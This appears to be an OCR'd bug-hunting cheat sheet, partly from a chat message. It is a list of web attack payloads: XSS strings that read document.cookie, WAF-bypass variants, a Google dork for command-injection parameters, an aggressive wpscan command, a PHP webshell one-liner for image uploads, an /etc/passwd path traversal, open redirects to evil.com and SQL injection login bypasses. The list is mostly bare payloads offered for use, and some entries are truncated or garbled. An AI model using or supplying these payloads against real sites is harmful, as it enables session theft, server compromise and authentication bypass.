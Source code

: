 ''"><script>(1)</script><iFrAme/src=jaVascRipt:prompt.valueOf()(1)+class=spider></iFramE>

inurl:cmd | inurl:exec= | inurl:query= | inurl:code= | inurl:do= | inurl:run= | inurl:read= | inurl:ping= inurl:& site:example[.]com

''"><script>(1)</script><iFrAme/src=jaVascRipt:prompt.valueOf()(1)+class=spider></iFramE>

sinzo, [8/16/2024 11:48 PM]
wpscan --url site.com --disable-tls-checks --api-token <here> -e at -e ap -e u --enumerate ap --plugins-detection aggressive --force
RCE payload on image::::::::::: <?='$_GET[[x]'?>
<img/src/onerror=alert﻿(1337)>
<svg/onload= alert﻿(2)>
"onmouseover="alert(1)
../../../../../../etc/passwd

}}})</script><script>alert(HACKED)</script>
Bypass WAF >>>> /?next=javascript:promptalert'1'
">\]<img src=x onerror=alert(document.cookie)>
="><svg/onload=prompt('Hacked-S.(m3ez)',document.cookie)>
_____ Directory listing poc bug::::: url/wp-includes/
____ Web cache deception poc:::::: eredijovon.com/en/identita/1.…
"><<![\CDATA[<]]>img src=x onerror=prompt(cookie)> -------- Stored XSS cookie
<img src=xss onerror=alert(document.domain)>

<script\x20type="text/javascript">javascript:alert(1);</script>

domain.com/abc/xyz/zyc/ht…<BASE64>evil.com#foobar</BASE64>

domain.com/abc/xyz/zyc/ht…

target.evil.com
evil.com/?param=target

evil.com/target

%09Jav%09ascript:alert(1)

<a href=evil.com>click here</a>

SQL

username: /1#\

password: /1#\

username: '-0||'

password: [non-empty]

username: admin'/*

password: */and pass>'

<script>window.location="http:google.com"</script>

<script>window.location="http:evil.com"</script>

Path Redirection
